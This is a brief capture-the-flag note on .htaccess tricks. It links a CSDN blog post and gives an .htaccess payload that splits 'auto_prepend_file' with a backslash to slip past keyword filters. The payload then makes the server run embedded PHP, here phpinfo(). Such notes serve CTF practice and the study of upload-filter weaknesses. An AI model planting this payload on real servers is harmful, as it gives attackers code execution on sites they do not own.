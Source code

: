 .htaccess

[[CTF\].htaccess的使用技巧总结_.htaccess ctf_Y4tacker的博客-CSDN博客](https://blog.csdn.net/solitudi/article/details/116666720)

payload

```
php_value auto_prepend_fi\
le .htaccess
#<?php phpinfo();

```

